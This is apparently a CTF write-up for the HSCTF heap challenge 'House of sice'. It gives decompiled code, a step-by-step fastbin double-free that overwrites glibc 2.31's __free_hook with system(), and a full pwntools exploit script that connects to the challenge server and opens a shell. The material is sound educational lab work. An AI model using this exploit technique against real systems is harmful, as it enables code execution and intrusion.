 # House of sice

author: poortho

Welcome to the House of Sice! We hope you enjoy your stay.

```
nc house-of-sice.hsc.tf 1337
```

**Files**: [libc-2.31.so](https://hsctf.storage.googleapis.com/uploads/09d4dc50d7b31bca5fbbd60efebe4ce2ce698c46753a7f643337a303c58db541/libc-2.31.so) (libc6_2.31-0ubuntu9.2_amd64) [house_of_sice](https://hsctf.storage.googleapis.com/uploads/b469de89f48a6cf15634642c2b00c4fd9f02b956f80d684d992d697b485ffb80/house_of_sice)

![image-20210619142557144](image-20210619142557144.png)

**TL;DR** execute a [fastbin double free](https://www.fatalerrors.org/index.php/a/tcache-stash-fastbin-double-free.html) with <16 allocations using calloc magic.

## Details

`house_of_sice` has two functions: `buy()` and `sell()`

### buy

```c
__int64 get_index_of_next_empty() {
  for (int i = 0; i <= 15; ++i)
      if ( !ptrs[i] ) return i;
  puts("Out of space!");
  exit(-1);
}
unsigned __int64 buy() {
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  int ind = get_index_of_next_empty();
  puts("What kind of deet do you want?");
  puts("1. Delightful Deet");
  puts("2. Devious Deet");
  puts("3. Flag");
  printf("> ");
  read(0, buf, 0x14uLL);
  switch (strtoul(buf, 0LL, 10))  {
    case 3uLL:
      puts("Sorry, we're sold out!");
      break;
    case 2uLL:
      if ( bought_devious ) puts("Out of stock!");
      else {
        ptrs[ind] = (__int64 *)calloc(8uLL, 1uLL);
        bought_devious = 1;
      }
      goto PURCHASE_DONE;
    case 1uLL:
      ptrs[ind] = (__int64 *)malloc(8uLL);
PURCHASE_DONE:
      puts("Here's your deet!");
      puts("As always, we follow a pay-what-you-want policy.");
      puts("How much are you willing to pay for this?");
      printf("> ");
      read(0, buf, 0x14uLL);
      *ptrs[ind] = strtoul(buf, 0LL, 10);
      puts("Done!");
  }
}
```

`buy()` allocates a single `0x20` chunk of memory from the heap; you're only allowed to modify the first 8 bytes of that allocation during `buy()`. `buy()` can be executed a maximum of **16** times, and this is the major roadblock for the challenge. Also, `calloc()` can be used for allocation once.

### sell

```c
unsigned __int64 sell() {
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  puts("Which deet do you want to sell?");
  printf("> ");
  read(0, buf, 0x14uLL);
  unsigned ind = strtoul(buf, 0LL, 10);
  if ( ind > 0xF ) puts("Invalid index!");
  else {
    free(ptrs[ind]);
    puts("Done!");
  }
}
```

`sell()` just runs `free(ptrs[ind])` without any checks, so double-frees are easily attainable.

### Solving

Start by making 9 allocations: 7 to fill the tcache, and 2 to obtain a double-free fastbin:

```python
for i in range(9): buy(1)
for i in range(7): sell(i)
sell(8)
sell(7)
sell(8)
```

![image-20210619141020018](image-20210619141020018.png)

Call `malloc()` twice to bring down the tcache to 5 pointers:

```python
buy(1)
buy(1)
```

![image-20210619141034020](image-20210619141034020.png)

Call `calloc()`, which will pull a pointer from the _fastbins_ instead of the tcache (among other things). Overwrite the first 8 bytes of the allocated pointer with `__free_hook` --- this is the usual `->fd` overwrite that happens in a double-free.

```python
buy(2, context.libc.symbols['__free_hook'])
```

![image-20210619141050121](image-20210619141050121.png)

The next two allocations with `malloc()` will pull out `__free_hook` from the double-free vulnerability. Somehow. As far as I'm aware, `calloc()` should [just be calling `malloc()` internally](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L3428), so I can't provide an explanation for what's happening here.

```python
buy(1,unpack(b'/bin/sh\0'))
buy(1,context.libc.symbols['system'])
```

![image-20210619141105154](image-20210619141105154.png)

At this point, `gef` is very confused, but `__free_hook` has been overwritten with `system()`, so you can just free the pointer with `"/bin/sh"` from earlier for a shell.

```python
from pwnscripts import *
context.binary = 'house_of_sice'
context.libc = 'libc-2.31.so'
r = remote('house-of-sice.hsc.tf', 1337)
r.recvuntil('deet: ')
context.libc.symbols['system'] = unpack_hex(r.recvline())

@context.quiet
def choose(opt: int): r.sendlineafter('> ', str(opt))
def buy(opt: int, pay: int=0):
    choose(1)
    r.sendlineafter('> ', str(opt))
    r.sendlineafter('> ', str(pay))
def sell(ind: int):
    choose(2)
    r.sendlineafter('> ', str(ind))

for i in range(9): buy(1)
for i in range(7): sell(i)
sell(8)
sell(7)
sell(8)
buy(1)
buy(1)
buy(2,context.libc.symbols['__free_hook']) # This will do... I don't even know!
buy(1,unpack(b'/bin/sh\0'))
buy(1,context.libc.symbols['system'])
sell(11)
r.sendline(b'cat flag')
print(r.recvline())
```

